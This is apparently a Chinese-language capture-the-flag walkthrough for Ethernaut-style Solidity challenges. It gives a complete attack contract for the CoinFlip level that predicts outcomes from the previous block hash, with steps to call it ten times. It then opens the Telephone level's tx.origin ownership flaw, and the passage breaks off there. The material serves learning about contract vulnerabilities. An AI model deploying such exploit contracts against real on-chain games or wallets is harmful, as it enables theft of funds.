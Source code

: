 - 生成新实例得到实例地址：0x4B396A00D471354DDd0690C65c3701223677063F
- 解题关键：
    
    uint256 blockValue = uint256(blockhash(block.number - 1));
    
    利用 block.blockhash(block.number-1) 来生成随机数，这是可预测的，我们可以部署一个恶意的新合约，先进行随机数的预测再竞猜
    
- 攻击合约代码：
    
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    import "./CoinFlip.sol";
    
    contract Attack{
        CoinFlip private coinFlip;
        uint256 FACOTR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
        constructor(address _name){
            coinFlip = CoinFlip(_name);
        }
        function attack() external{
            bool guess = guess();
            require(coinFlip.flip(guess),"guess false");
    
        }
    
        function guess() private view returns(bool){
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue/FACOTR;
            bool side =  coinFlip == 1? true : false;
            return side;
        }
    
    }
    ```
    
- 执行合约10次即可完成10次attack（）方法，记住一个块上只能attack一次，执行完后查询consecutiveWins

## telephone

- 要求：成为owner
- 合约代码
    
    ```
    pragma solidity ^0.6.0;
    
    contract Telephone {
    
      address public owner;
    
      constructor() public {
        owner = msg.sender;
      }
    
      function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
          owner = _owner;
        }
      }
    }
    